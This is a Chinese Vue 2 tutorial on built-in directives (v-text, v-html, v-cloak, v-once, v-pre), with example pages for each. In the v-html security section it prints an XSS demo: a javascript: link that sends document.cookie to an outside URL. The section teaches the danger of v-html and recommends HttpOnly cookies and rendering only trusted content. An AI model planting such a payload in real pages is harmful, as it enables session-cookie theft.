




# Vue的其他内置指令

## 1. 学过的指令的总结

- v-bind : 单向绑定解析表达式, 可简写为 `:`
- v-model : 双向数据绑定
- v-for : 遍历数组/对象/字符串
- v-on : 绑定事件监听, 可简写为`@`
- v-if : 条件渲染（动态控制节点是否存存在）
- v-else : 条件渲染（动态控制节点是否存存在）
- v-show : 条件渲染 (动态控制节点是否展示)

## 2. v-text 指令

v-text 指令的作用：向其所在的节点中渲染文本内容。

v-text 指令与插值语法的区别：v-text会替换掉节点中的内容，即会覆盖元素内部原有的内容，而插值语法则不会。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h2>你好，{{name}}</h2>
    <h2 v-text="name">你好，</h2>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '张三'
    }
  })
</script>
</html>
```

> 

## 3. v-html 指令

> v-text和插值表达式只能渲染纯文本内容，如果要把包含html标签的字符串渲染为页面的html元素，需要使用v-html。

v-html 指令可以向指定节点中渲染包含html结构的内容。

v-html 也会替换掉节点中的内容，即会覆盖元素内部原有的内容。

### 3.1 示例

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <div>{{str}}</div>
    <div v-text="str">你好</div>
    <div v-html="str">你好</div>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      str: '<h1>hello world</h1>'
    }
  })
</script>
</html>
```

> 

### 3.2 v-html 的安全性问题

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				// 如果此元素被解析到页面上
				// 那么将会生成一个超链接标签
				// 当用户点击后
				// 由于 location.href="http://www.baidu.com?"+document.cookie
				// 本网站的cookie将被获取，同时跳转到指定页面，将本网站的cookie发送给跳转网站的服务器
				// 这样子别人就能够获取和使用我们的cookie进行登录或者其他操作
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

> 
> 
> 

Cookie中，勾选了HttpOnly的内容不能通过document.cookie直接获取，只能通过http协议获取，http协议之外的任何方式都不能得到。



得到的只有没有勾选HttpOnly的内容



### 3.3 v-html 总结

1. v-html 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
   - (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
   - (2).v-html可以识别html结构。
3. 严重注意：v-html有安全性问题！！！！
   - (1).在网站上动态渲染任意HTML是非常危险的，容易导致[XSS攻击(冒充用户之手)](https://baike.baidu.com/item/XSS攻击/954065)。
   - (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

## 4. v-cloak 指令

v-cloak指令没有值，本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<!-- 
			由于加载vue.js在html元素之后，所以当网速较慢时，vue.js还未获取到
			此时未经vue渲染的原始html元素就会显示给用户
			如果使用了v-cloak再配合css则可以实现在vue.js未获取时不显示，直到获取之后才显示
			因为创建vue实例对象只能在获取vue.js之后，使用vue实例页面进行渲染也只能在创建vue实例之后
		 -->
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```

## 5. v-once 指令

v-once 所在节点在初次动态渲染后，就视为静态内容了。以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

示例：

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-once指令</title>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 只有第一次动态渲染才会进行数据的更新 -->
			<!-- 以后数据的改变不会引起v-once所在结构的更新 -->
			<h2 v-once>初始化的n值是:{{n}}</h2>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```

> 

## 6. v-pre 指令

v-pre指令能够使vue跳过其所在节点的编译过程，即在代码中写的什么样在页面中就显示什么，vue不会对v-pre所在的节点进行渲染。

可利用 v-pre 指令跳过 没有使用指令语法、没有使用插值语法 的节点，会加快编译。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-pre指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-pre>Vue其实很简单</h2>
			<h2 v-pre>当前的n值是:{{n}}</h2>
			<button v-pre @click="n++">点我n+1</button>
			<h2 >当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```

> 
> 

